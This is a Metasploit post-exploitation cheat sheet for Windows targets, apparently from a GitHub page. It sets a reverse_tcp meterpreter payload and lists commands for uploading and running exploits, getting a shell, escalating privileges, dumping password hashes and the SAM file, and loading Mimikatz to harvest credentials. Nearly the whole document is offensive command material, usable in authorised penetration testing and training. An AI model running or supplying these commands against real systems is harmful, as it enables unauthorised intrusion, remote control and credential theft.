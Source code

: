 # Metasploit

Windows reverse meterpreter payload 

`set payload windows/meterpreter/reverse_tcp` 

## Useful meterpreter commands. 

| Command  | Description  |
| :--- | :--- |
| upload file c:\\windows  | Meterpreter upload file to Windows target  |
| download c:\\windows\\repair\\sam /tmp  | Meterpreter download file from Windows target  |
| download c:\\windows\\repair\\sam /tmp  | Meterpreter download file from Windows target  |
| execute -f c:\\windows\temp\exploit.exe  | Meterpreter run .exe on target - handy for executing uploaded exploits  |
| execute -f cmd -c  | Creates new channel with cmd shell  |
| ps  | Meterpreter show processes  |
| shell  | Meterpreter get shell on the target  |
| getsystem  | Meterpreter attempts priviledge escalation the target  |
| hashdump  | Meterpreter attempts to dump the hashes on the target  |
| portfwd add –l 3389 –p 3389 –r target  | Meterpreter create port forward to target machine  |
| portfwd delete –l 3389 –p 3389 –r target  | Meterpreter delete port forward  |

## Post Exploit Windows Metasploit Modules 

Windows Metasploit Modules for privilege escalation. 

| Command  | Description  |
| :--- | :--- |
| run post/windows/gather/win\_privs  | Metasploit show privileges of current user  |
| use post/windows/gather/credentials/gpp  | Metasploit grab GPP saved passwords  |
| load mimikatz -&gt; wdigest  | Metasploit load Mimikatz  |
| run post/windows/gather/local\_admin\_search\_enum  | Identify other machines that the supplied domain user has administrative access to  |
| run post/windows/gather/smart\_hashdump  | dump credentials  |

